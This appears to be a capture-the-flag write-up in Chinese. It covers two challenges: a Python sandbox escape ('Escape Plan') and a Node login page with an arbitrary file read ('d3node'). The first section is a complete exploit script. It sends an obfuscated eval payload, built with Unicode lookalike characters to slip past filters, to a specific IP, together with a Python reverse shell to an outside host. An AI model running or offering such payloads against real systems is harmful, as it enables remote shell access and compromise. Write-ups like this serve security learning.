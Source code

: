 # Escape Plan

```python
import requests, base64

u = '𝟢𝟣𝟤𝟥𝟦𝟧𝟨𝟩𝟪𝟫'
exp = b"globals()['request'].form['a']"
print(base64.b64encode(exp).decode())
CMD = f"eval(eval(vars(eval(list(dict(_a_aiamapaoarata_a_=()))[len([])][::len(list(dict(aa=()))[len([])])])(list(dict(b_i_n_a_s_c_i_i_=()))[len([])][::len(list(dict(aa=()))[len([])])]))[list(dict(a_2_b1_1b_a_s_e_6_4=()))[len([])][::len(list(dict(aa=()))[len([])])]](list(dict({base64.b64encode(exp).decode()}=()))[len([])])))"
CMD = CMD.translate({ord(str(i)): u[i] for i in range(10)})
CMD = CMD.replace("e", "ᵉ")
res = requests.post("http://139.196.153.118:30402/",
                    data={
                        "cmd": base64.b64encode(CMD.encode()),
                        "a": 'exec(\'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.113.198.5",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\')'
                    }).text
print(res)
```

# d3node

开局一个登录框，F12查看网页源码，提示

```js
Userinfo.findOne({username: req.body.username, password: req.body.password}).exec()
    .then((info) => {
    if (info == null) {
        return res.render("login", {login_result: "Login failed,invalid username or password"});
    } else {
```

应该是调用了啥ORM或ODM框架去数据库查用户名和密码了

先注册一个账号试试，用户名为`admin`提示`User already exists`

估计要想办法登录`admin`账号了

登录后F12得到提示 

```js
try {
    return res.status(200).send(fs.readFileSync(req.query.filename || "./example/example.json").toString());
}catch(err){
    return res.status(500).send("Internal server error");
}
```

可以任意读取文件
